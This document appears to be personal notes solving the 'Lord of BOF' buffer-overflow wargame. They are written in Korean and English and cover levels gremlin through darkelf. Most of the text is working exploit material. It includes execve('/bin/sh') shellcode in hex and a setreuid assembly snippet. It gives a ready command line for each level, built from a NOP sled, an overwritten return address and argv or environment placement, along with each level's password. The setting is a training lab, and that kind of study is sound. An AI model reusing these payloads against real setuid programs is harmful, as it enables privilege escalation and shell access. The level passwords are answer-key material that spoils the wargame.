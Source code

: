 [LoB]

telnet -l gate 192.168.171.5

#include <stdio.h>
#include <stdlib.h>

int main(void) {
        printf("0x%x\n", getenv("SHELLCODE"));
}

SHELLCODE (환경변수 : \x90 * 15 + SHELLCODE) 
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

setreuid 

.global main

main:
        #setreuid(502,502)
        xor     %eax, %eax
        mov     $0x46, %al  # 70 setreuid syscall
        mov     $0x1f6, %bx # 502
        mov     $0x1f6, %cx # 502
        int     $0x80

/bin/bash2
[gate] ./gremlin `python -c 'print "\x90" * 260 + “환경변수 저장 주소”
pwd: hello bof world

[gremlin] ./cobolt $(python -c 'print "\x90" * 20 + "\x38\xfe\xff\xbf"')
pwd: hacking exposed
(환경변수: SHELLCODE) 

[cobolt] (python -c 'print "\x90" * 20 + "\x11\xff\xff\xbf"';cat) | ./goblin
pwd: hackers proof
(환경변수: SHELLCODE) 

[goblin] ./orc `python -c 'print "A" * 44 + "\xeb\xfc\xff\xbf"+ " " + "\x90" * 100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80”

pwd: cantata

(\xeb\xfc\xff\xbf: argv[2] 주소)
argv[2] 값으로 접근 (break *main+194, x/100s $esp 로 두 번째 인자가 저장되는 주소 찾아서 접근)


[orc] ./wolfman`python -c 'print "A" * 44 + "\x87\xfd\xff\xbf"+ " " + "\x90" * 100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80”
pwd: love eyuna

(\x87\xfd\xff\xbf: argv[2] 주소)
argv[2] 값으로 접근 (break *main+194, x/100s $esp 로 두 번째 인자가 저장되는 주소 찾아서 접근)

[wolfman] 
./darkelf `python -c 'print "A" * 44 + "\x67\xfd\xff\xbf"+ " " + "\x90" * 100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80”
pwd: kernel crashed
